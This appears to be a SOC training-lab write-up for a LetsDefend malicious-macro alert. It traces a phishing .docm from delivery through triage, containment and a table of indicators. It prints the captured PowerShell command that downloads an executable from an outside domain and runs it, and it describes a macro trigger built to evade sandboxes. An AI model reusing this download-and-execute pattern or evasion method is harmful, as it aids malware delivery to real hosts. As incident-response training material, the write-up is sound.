





### <span class="hl">Alert</span>
```
EventID :            231
Event Time :         Feb, 28, 2024, 08:42 AM
Rule :               SOC205 - Malicious Macro has been executed
Level :              Security Analyst
Hostname :           Jayne
IP Address :         172.16.17.198
File Name :          edit1-invoice.docm
File Path :          C:\Users\LetsDefend\Downloads\edit1-invoice.docm
File Hash :          1a819d18c9a9de4f81829c4cd55a17f767443c22f9b30ca953866827e5d96fb0
Trigger Reason :     Suspicious file detected on system.
AV/EDR Action :      Detected
```
### <span style="color:red">Identification</span>

#### <span class="hl">What was the delivery vector?</span>

Reviewing the Exchange mail server logs confirmed the delivery vector. At **Feb 28, 2024, 08:12 AM** - 30 minutes before the alert fired - the phishing email arrived from `jake.admin@cybercommunity.info` (source `172.67.156.165`) to `jayne@letsdefend.io`, carrying the attachment `edit1-invoice.docm.zip`. The ZIP archive was used to bypass email gateway attachment filtering that would typically block `.docm` files directly.



#### <span class="hl">Is the payload malicious?</span>

I submitted the file hash `1a819d18c9a9de4f81829c4cd55a17f767443c22f9b30ca953866827e5d96fb0` to VirusTotal - **26/56 vendors** flagged the file as malicious. Static analysis revealed the document contains a hidden macro that triggers automatically when an InkEdit element receives focus, extracting and executing a command from a TextBox control in a hidden window. This non-standard activation method is designed to bypass macro security warnings and analyst sandboxes that do not simulate user interaction. The threat category is identified as `downloader.logan` / `powersh`, confirming this is a macro-based downloader.



#### <span class="hl">What did the macro execute?</span>

Process creation log Event ID 4688 showed that WINWORD.EXE (PID 4545) spawned `powershell.exe` under the LetsDefend account:
```
'C:\Program Files\Microsoft Office\Office14\WINWORD.EXE' /n
'C:\Users\admin\AppData\Local\Temp\edit1-invoice.docm'
```

PowerShell Script Block Logging Event ID 4104 captured the full command at **08:42 AM**:

```powershell
(New-Object System.Net.WebClient).DownloadFile(
  'http://www.greyhathacker.net/tools/messbox.exe',
  'mess.exe'
)
Start-Process 'mess.exe'
```




The macro used `System.Net.WebClient.DownloadFile` to fetch `messbox.exe` from `greyhathacker.net` and immediately executed it as `mess.exe` in the current directory - a classic single-stage macro downloader execution pattern.

#### <span class="hl">Did anyone else get targeted?</span>

The mail log shows the phishing email was addressed exclusively to `jayne@letsdefend.io`. No other recipients were identified in the delivery logs.

#### <span class="hl">Did the attack succeed?</span>

Yes. The macro executed successfully, PowerShell spawned and ran the download command, and `mess.exe` was executed on the host. The EDR detected the activity but the payload reached execution stage before containment.

### <span style="color:red">Triage Decision</span>

**True Positive.** A phishing email delivered a macro-enabled document that successfully executed a PowerShell downloader, fetched a second-stage executable from an external attacker domain, and ran it on the endpoint. **Escalated to L2.**

#### <span class="hl">What is the impact level?</span>

High. The macro executed fully and `mess.exe` was launched on host Jayne (`172.16.17.198`). The second-stage payload origin `greyhathacker.net` is an attacker-controlled domain. Full scope of `mess.exe` activity requires memory forensics and process tree analysis by L2.

### <span style="color:red">Containment</span>

#### <span class="hl">Is the attacker still active?</span>

The macro has executed and `mess.exe` was launched. Until L2 confirms whether `mess.exe` established persistence or C2 communication, the attacker should be considered potentially active on the endpoint.

#### <span class="hl">Is the endpoint still exposed?</span>

No. Host Jayne was isolated via the Containment toggle in the endpoint management console, cutting it off from the corporate network.



#### <span class="hl">Actions taken</span>

Host Jayne (`172.16.17.198`) was contained. Sender domain `cybercommunity.info` and source IP `172.67.156.165` were blocked at the email gateway. Domain `greyhathacker[.]net` was blocked at the DNS/proxy level. Case escalated to L2 for memory acquisition and full forensic investigation of `mess.exe` behavior.

### <span class="hl">IOCs</span>

| Type | Value | Description |
|------|-------|-------------|
| Email | `jake.admin@cybercommunity.info` | phishing sender |
| IP | `172.67.156.165` | phishing email source |
| Domain | `greyhathacker[.]net` | second-stage payload hosting |
| URL | `hxxp://www.greyhathacker[.]net/tools/messbox.exe` | payload download URL |
| File | `edit1-invoice.docm.zip` | phishing attachment |
| File | `edit1-invoice.docm` | SHA256: 1a819d18c9a9de4f81829c4cd55a17f767443c22f9b30ca953866827e5d96fb0 |
| File | `mess.exe` | downloaded second-stage executable |
| Host | `Jayne` (172.16.17.198) | compromised endpoint |
| Account | `LetsDefend` | account under which macro executed |

